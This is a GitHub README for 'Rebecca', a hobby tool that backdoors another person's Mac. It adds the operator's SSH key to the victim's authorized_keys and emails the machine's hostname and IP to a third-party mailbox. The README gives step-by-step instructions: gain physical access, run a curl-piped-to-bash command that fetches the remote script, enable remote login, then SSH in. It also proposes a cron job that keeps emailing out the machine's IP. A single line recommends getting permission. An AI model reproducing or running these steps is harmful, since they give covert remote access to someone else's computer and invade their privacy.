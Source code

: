 # Rebecca
Rebecca gives authorized ssh access to another user's mac PC.

**_I HIGHLY RECOMMEND GETTING PERMISSION FROM THE USER FIRST_**

Rebecca consist of two scripts, one to add rsa public key into the authorized_keys of the user's mac PC and email relevant information for ssh to a third party mailbox. The other to remove rsa public key from the authorized_keys of the user's mac PC.

## Why Rebecca was created?
Rebecca was created for fun :smirk:.

With ssh access, one can make a mac talk to the user, launch random browsers, sleep the mac PC, etc. Some interesting commands to play with:
```
say "hello world"
open "http://google.com"
pmset sleepnow
```

## How to use Rebecca?
Before using Rebecca, there are a few configurations to make:
1. you will want to clone this to your own github respository
2. you will want to create a rsa key pair if you don't have one
3. change the rsa public key in rebecca.sh to your own rsa public key (add your own identifier at the end)
4. change the third party mailbox in rebecca.sh to your own mailbox
5. change identifier in purge.sh to your identifier otherwise purge.sh will not work

Steps to gain access:
1. get physical access of a person's mac PC
2. open terminal and run the bash command that links to rebecca.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/rebecca.sh)`
3. turn on remote login sharing
4. check mailbox for hostname and ip address
5. ssh in with the hostname and ip address, e.g.
* `ssh -i private_rsa_key_file hostname@192.168.123.123`

To remove from user's mac PC:
1. open terminal and run the bash command that links to purge.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/purge.sh)`

## Possible improvements
Rebecca relies on the ip address of the user's PC. In the event where the user is assigned another ip address, it will be impossible to ssh in. A solution to this problem would be to set up a scheduled job on the user's PC to send out its ip address in an email (crontabs?). There is currently no intention to further improve rebecca as this is only an experimental project.

## Credits
Thanks to Ryan Tan and Ken Chuan for this interesting idea and guidance, as well as all who have given me permission to experiment on their laptops :grin:.
